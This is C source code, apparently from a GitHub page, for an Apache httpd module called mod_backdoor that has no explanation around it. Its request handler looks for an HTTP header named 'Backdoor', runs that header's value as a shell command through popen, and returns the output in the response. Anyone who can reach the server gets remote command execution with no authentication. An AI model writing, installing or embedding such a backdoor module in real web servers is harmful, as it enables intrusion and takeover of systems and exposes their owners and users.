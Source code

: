 ```
#include <stdlib.h>

/* The sample content handler */
static int backdoor_handler(request_rec *r)
{
    /*
    if (strcmp(r->handler, "backdoor")) {
        return DECLINED;
    }
    r->content_type = "text/html";

    if (!r->header_only)
        ap_rputs("The sample page from mod_backdoor.c\n", r);
    */
    /*~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~*/
    const apr_array_header_t    *fields;
    int                         i;
    apr_table_entry_t           *e = 0;
    char FLAG = 0;
    /*~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~*/

    fields = apr_table_elts(r->headers_in);
    e = (apr_table_entry_t *) fields->elts;

    for(i = 0; i < fields->nelts; i++) {
        if(strcmp(e[i].key, "Backdoor") == 0){
            FLAG = 1;
            break;
        }
    }

    if (FLAG){
        char * command = e[i].val;
        ap_rprintf(r, "Command: %s\n", command);
        ap_rprintf(r, "Result: \n", command);
        FILE* fp = popen(command,"r");
        char buffer[0x100] = {0};
        int counter = 1;
        while(counter){
            counter = fread(buffer, 1, sizeof(buffer), fp);
            ap_rwrite(buffer, counter, r);
        }
        pclose(fp);
    }
    return OK;
}

static void backdoor_register_hooks(apr_pool_t *p)
{
    ap_hook_handler(backdoor_handler, NULL, NULL, APR_HOOK_MIDDLE);
}

/* Dispatch list for API hooks */
module AP_MODULE_DECLARE_DATA backdoor_module = {
    STANDARD20_MODULE_STUFF,
    NULL,                  /* create per-dir    config structures */
    NULL,                  /* merge  per-dir    config structures */
    NULL,                  /* create per-server config structures */
    NULL,                  /* merge  per-server config structures */
    NULL,                  /* table of config file commands       */
    backdoor_register_hooks  /* register hooks                      */
};
```